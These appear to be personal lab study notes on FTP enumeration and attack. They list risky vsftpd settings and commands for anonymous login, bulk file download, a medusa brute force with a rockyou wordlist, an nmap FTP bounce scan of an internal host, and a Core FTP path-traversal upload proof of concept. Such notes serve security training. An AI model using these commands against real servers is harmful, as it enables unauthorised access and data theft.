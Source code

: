 PORTS: `21` 
## FTP packages, and misconfigurations
----------------------
vftp"
`/etc/ftpusers` that we also need to pay attention to, as this file is used to deny certain users access to the FTP service.
```shell-session
cat /etc/ftpusers
```
http://vsftpd.beasts.org/vsftpd_conf.html

| **Setting**                    | **Description**                                                                    |
| ------------------------------ | ---------------------------------------------------------------------------------- |
| `anonymous_enable=YES`         | Allowing anonymous login?                                                          |
| `anon_upload_enable=YES`       | Allowing anonymous to upload files?                                                |
| `anon_mkdir_write_enable=YES`  | Allowing anonymous to create new directories?                                      |
| `no_anon_password=YES`         | Do not ask anonymous for password?                                                 |
| `anon_root=/home/username/ftp` | Directory for anonymous.                                                           |
| `write_enable=YES`             | Allow the usage of FTP commands: STOR, DELE, RNFR, RNTO, MKD, RMD, APPE, and SITE? |
|                                |                                                                                    |
|                                |                                                                                    |
connect to ftp using ssh & get certificate info
## Interacting with FTP
---------------
This section aims to obtain information about the server running the service and how it's configured.
#### NMAP SCRIPTS
anon-login
#nmap #nmapscripts
```bash
$ find / -type f -name ftp* 2>/dev/null | grep scripts
```

SSL Certificate, FTP version,  user information, 
```
$ nc -vn 10.129.112.143 21
```

get certificate if any:
```
$ openssl s_client -connect 10.129.22.120:21 -starttls ftp

Server certificate

-----BEGIN CERTIFICATE-----

MIIENTCCAx2gAwIBAgIUD+SlFZAWzX5yLs2q3ZcfdsRQqMYwDQYJKoZIhvcNAQEL
...SNIP...
```

#### Anonymous Login

```shell-session
ftp 10.129.14.136
```

You can us the commands `HELP` and `FEAT` to obtain some information of the FTP server.

Get info on Server Configuration

```
ftp> status
```
Some commands should be used occasionally, as these will make the server show us more information that we can use for our purposes. These commands include `debug` and `trace`.

#### Recursive Listing

```shell-session
ftp> ls -R
```
get file
```shell-session
ftp> get Important\ Notes.txt
```
#### Download All Available Files

```shell-session
wget -m --no-passive ftp://anonymous:anonymous@10.129.14.136
$ tree .
```

### Download  all files using specific port
```
wget -m --no-passive ftp://anonymous:anonymous@10.129.14.136:<PORT-NUMBER>
```
##### UPLOAD FILES
```shell-session
ftp> put testupload.txt 
```
It looks slightly different if the FTP server runs with TLS/SSL encryption. Because then we need a client that can handle TLS/SSL.
Use `openssl` command used on top


example vulnerability with core ftp (research whats on nmap)
```shell-session
$ curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```

Check for anonymous access
```
ftp IP
ftp anonymous@ip -P port idk
NAME: anonymous
pass: anonymous 
```

## Attacking FTP

##### Brute Forcing

If there is no anonymous authentication available, we can also brute-force the login for the FTP services using a list of the pre-generated usernames and passwords. There are many different   
`medusa -u/U -p/P -M ftp -h IP`
EXAMPLE
```shell-session
 medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp -n <port>
```

#### FTP Bounce Attack
An FTP bounce attack is a network attack that uses FTP servers to deliver outbound traffic to another device on the network. The attacker uses a `PORT` command to trick the FTP connection into running commands and getting information from a device other than the intended server.

Consider we are targetting an FTP Server `FTP_DMZ` exposed to the internet. Another device within the same network, `Internal_DMZ`, is not exposed to the internet. We can use the connection to the `FTP_DMZ` server to scan `Internal_DMZ`
Modern FTP servers include protections that, by default, prevent this type of attack, but if these features are misconfigured in modern-day FTP servers, the server can become vulnerable to an FTP Bounce attack.
![[ftp_bounce_attack.webp]]
Bounce attack
```shell-session
$ nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
FTP command misalignment detected ... correcting.
```

---
file operations
We can use the commands `ls` and `cd` to move around directories like in Linux. To download a single file, we use `get`, and to download multiple files, we can use `mget`. For upload operations, we can use `put` for a simple file or `mput` for multiple files. We can use `help` in the FTP client session for more information.

